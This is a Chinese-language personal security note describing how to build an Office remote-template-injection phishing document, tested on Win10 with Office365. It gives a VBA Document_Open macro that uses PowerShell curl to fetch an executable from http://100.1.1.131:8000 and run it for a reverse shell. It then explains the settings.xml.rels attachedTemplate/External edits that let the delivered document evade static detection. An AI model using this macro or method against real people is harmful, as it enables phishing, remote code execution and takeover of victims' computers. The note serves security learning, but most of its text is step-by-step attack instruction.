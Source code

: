 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 钓鱼
tags:
  - 钓鱼附件
  - Office
  - 关系模板注入
---
```


# Office关系模板注入

> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)
>
> [利用模板注入攻击关键基础设施 (cisco.com)](https://www.cisco.com/c/dam/m/zh_cn/products/security/talos/template-injection.pdf)
>
> 

- 测试环境: Win10+Office365

利用Word文档加载附加模板时的缺陷所发起的恶意请求，而达到的攻击目的，当目标用户点开攻击者发送的恶意Word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。

发送的文档本身不带恶意代码，所以能过很多静态检测。只需要在远程DOTM文档中编写宏病毒或者木马即可。

制作一个宏钓鱼的文档挂载到 HTTP 服务器上, 例如前面的 VBA 宏调 Powershell 下载与执行文件达成反弹shell

```vb
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub

```

选定目标 word 文档后将其后缀名改成 `.zip` 并解压

![image-20240611053738672](http://cdn.ayusummer233.top/DailyNotes/202406110609857.png)

整体目录结构如下:

![image-20240611053804070](http://cdn.ayusummer233.top/DailyNotes/202406110609303.png)

制作关系模板注入文档主要需要修改两个文件

- `\word\_rels\settings.xml.rels`

  一般 `word/_rels` 文档里可能只有 `document.xml.rels` 没有  `settings.xml.rels`, 此时需要新建一个 `settings.xml.rels` 文档

  ![image-20240611054035175](http://cdn.ayusummer233.top/DailyNotes/202406110609832.png)

  几个关键点

  - `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"`

    最后一定要是 `attachedTemplate` 定义关系模板

  - `TargetMode` 要是 `External` 外部模板定义

- `\word\settings.xml`

  在 `w:settings` 属性中定义外部模板

  ![image-20240611054105685](http://cdn.ayusummer233.top/DailyNotes/202406110609115.png)

将目录重新打包成 zip 并重命名为 docx 文档

![image-20240611055158981](http://cdn.ayusummer233.top/DailyNotes/202406110609548.png)

到这里模板注入的钓鱼文档就制作好了, 但是由于这里外联模板直接填的ip是不受信任的, 因此这里即便打开了也不会正常加载外部模板, 需要添加受信任站点

> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)

打开 `Internet选项->受信任的站点->站点` 添加目标主机即可

![image-20240611103839273](http://cdn.ayusummer233.top/DailyNotes/202406111038830.png)

![image-20240611103954699](http://cdn.ayusummer233.top/DailyNotes/202406111039797.png)

![image-20240611104113796](http://cdn.ayusummer233.top/DailyNotes/202406111041875.png)

---

打开该文档便会下载外部模板文档并执行宏代码达成反弹shell:

![image-20240611060918908](http://cdn.ayusummer233.top/DailyNotes/202406110609052.png)

![image-20240611060910931](http://cdn.ayusummer233.top/DailyNotes/202406110609182.png)



---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---

